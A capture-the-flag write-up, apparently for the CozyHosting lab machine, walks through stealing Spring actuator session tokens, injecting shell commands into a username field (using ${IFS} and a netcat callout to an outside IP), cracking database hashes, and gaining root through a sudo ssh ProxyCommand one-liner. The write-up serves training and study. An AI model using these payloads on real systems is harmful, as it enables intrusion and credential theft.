



# CozyHosting

Machine has open port http/80. 
No default logins possible, but whitelabel error page (e.g. http://cozyhosting.htb/asdf) indicated spring application.
Further enumeration of Spring application via directory scanning ([this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)) showed that application leaks actuators.

## User flag
Spring actuators leak session tokens at http://cozyhosting.htb/actuator/sessions.
This allows to login without credentials, which gives access to the admin dashboard at http://cozyhosting.htb/admin.
The admin panel contains some functionality, to include hosts for automatic patching. 
The user can specify a hostname and a username and press submit. 
This data is sent to the endpoint http://cozyhosting.htb/executessh, which seems to run a system `ssh` command.


The application does not allow spaces in username/password but the following parameters trigger RCE on the server.
Please note, that `${IFS}` is used to avoid spaces because bash interprets `${IFS}` as spaces.
````
# Parameters for poof of concept RCE
host=localhost
username=a;echo${IFS}ab|nc${IFS}10.10.14.115${IFS}1234${IFS}|

# These parameters run the following command on the server:
echo ab | nc 10.10.14.115 1234
````

The python script [rce.py](rce.py) can be used to obtain a proper reverse shell.
The server stores the java application in a file `cloudhosting-0.0.1.jar`, which can be unzipped.
Searching in the obtained files revealed postgres database credentials:

We can login to the database with `postgres:Vg&nvzAQ7XxR` using the `psql` cli.

The database has stores a user table which contains hashed passwords.
They can be cracked via john the ripper and the wordlist `rockyou.txt` as followed:

The delivers the password `manchesterunited`, which can be used to login as user `josh` to obtain the users flag.


## System flag
The system flag was retrieved after inspecting `sudo -l` of user `josh`.
This indicated, that `josh` can run command `ssh` as root.
Thus, the following command drops a root shell (see gtfo bins): `sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
